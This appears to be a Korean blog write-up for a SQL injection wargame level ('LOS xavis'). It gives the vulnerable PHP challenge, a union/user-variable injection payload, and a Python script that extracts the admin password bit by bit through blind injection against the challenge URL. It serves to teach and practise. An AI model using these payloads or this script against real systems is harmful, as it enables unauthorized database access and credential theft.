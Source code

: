 ```yaml
---
title : "LOS Lv.19 xavis"
categories : [Wargame, rubiya]
---
```



## xavis
<hr style="border-top: 1px solid;"><br>

```php
query : select id from prob_xavis where id='admin' and pw=''

<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  if(preg_match('/regex|like/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_xavis where id='admin' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_xavis where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("xavis"); 
  highlight_file(__FILE__); 
?>
```

<br><br>
<hr style="border: 2px solid;">
<br><br>

## Solution
<hr style="border-top: 1px solid;"><br>

코드를 짜서 푸는 방법과 사용자 정의 변수를 이용한 방법이 있음.

사용자 정의 변수를 이용한 방법은 아래와 같음.
: ```?pw=' or id='admin' and @a:=pw union select @a limit 0,1 %23```

<br>

```python
import requests

url='https://los.rubiya.kr/chall/xavis_04f071ecdadb4296361d2101e4a2c390.php'
headers={'Content-Type':'application/x-www-form-urlencoded'}
cookies={'PHPSESSID':'[redacted]'}

pw=''
bit_val=''


for i in range(1,4) :
    for k in range(7,30) :
        payload={'pw':"' or id='admin' and length(bin(ord(substr(pw,"+str(i)+",1))))="+str(k)+"#"}
        res=requests.get(url,headers=headers, params=payload, cookies=cookies)
        if "Hello admin" in res.text :
            bit_len=k   # 다 16bit임.
            break
    
    for j in range(1,bit_len+1) :
        payload={'pw':"' or id='admin' and substr(bin(ord(substr(pw,"+str(i)+",1))),"+str(j)+",1)=0 #"}
        res=requests.get(url,headers=headers, params=payload, cookies=cookies)
        if "Hello admin" in res.text :
            bit_val+='0'
        else :
            bit_val+='1'

    pw+=chr(int(bit_val,2))
    bit_val=''
    print("pw :",pw) 
```

<br>

패스워드가 바로 한글 즉, 유니코드임. 

유니코드면 ascii코드 기반인 영문자가 아니라 멀티바이트. 

따라서 비트 길이를 구할 때, ascii함수 대신 ord 함수 사용. 

ord함수를 사용해야 함. ord 함수는 멀티바이트 문자도 계산해주기 때문임. 


<br><br>
<hr style="border: 2px solid;">
<br><br>
